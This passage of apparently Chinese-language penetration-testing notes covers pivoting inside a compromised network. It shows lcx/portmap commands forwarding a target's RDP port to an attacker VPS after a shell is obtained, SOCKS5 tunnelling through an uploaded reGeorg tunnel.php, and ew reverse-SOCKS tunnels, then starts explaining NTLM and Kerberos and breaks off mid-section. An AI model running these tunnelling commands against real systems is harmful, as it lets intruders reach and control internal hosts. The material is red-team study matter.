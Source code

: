### lcx.exe

使用条件：服务器通外网，拥有自己的公网 ip  
说明：lcx 是一个经典的端口转发工具，可以直接把`3389端口转发到公网的vps上`  
命令如下

```plain
# 拿到 shell 后执行命令
lcx.exe -slave 1.1.1.1 9999 127.0.0.1 3389  ## 1.1.1.1 为公网 IP，转发 3389 端口到 9999 端口

# 配合 Linux 对应工具 portmap
./portmap -m 2 -p1 9999 -p2 33889  ## 这里 p1 对应监听端口，p2 对应要转发的端口

## Windows 远程连接 mstsc
rdesktop 1.1.1.1:33889
```

## 基于 web 服务的 socks5 隧道

常用的工具有：reGeorg，reDuh，Tunna 和 Proxifier  
先利用 `reGeorgSocksProxy.py`进行生成一个隧道，-p 为指定隧道的端口，-u 为刚刚上传的 tunnel 文件地址。

```plain
python reGeorgSocksProxy.py -p 8888 -u http://x.x.x.x/tunnel.php
```

然后利用 socks5 代理指定的端口

### ew 搭建 socks5 隧道

目标主机为 windows 系统，选择上传 ew\_for\_Win.exe 文件。  
公网 vps 使用 ew\_for\_linux64 文件

```plain
## VPS 上执行
./ew_for_linux64 -s rcsocks -l 1080 -e 9999

## 然后在目标执行
ew_for_Win.exe -s rssocks -d 1.1.1.1 -e 11000
```

## 协议概念

学习 ntlm、kerberos、smb 协议，以及 ACL,SACL 概念

### NTLM 认证协议

`NTLM协议`基于 NTLM hash，windows 本地登陆的密码由 LM hash 和 NTLM hash 组成，存储在 SAM 文件中，前一部分是 LM Hash，后一部分是 NTLM Hash。

### Kerberos 认证协议

`kerberos协议` 是一种网络认证协议，整个认证过程涉及到三方，包含客户端、服务端和 KDC，而在 Windows 域环境中，KDC 的角色是由 DC 域控制器来担当  
其中 `KDC`中包括 AS（认证服务器）和 TGS（Ticket GrantingServer 票据服务器）和 AD（活动目录）  
整体流程如下
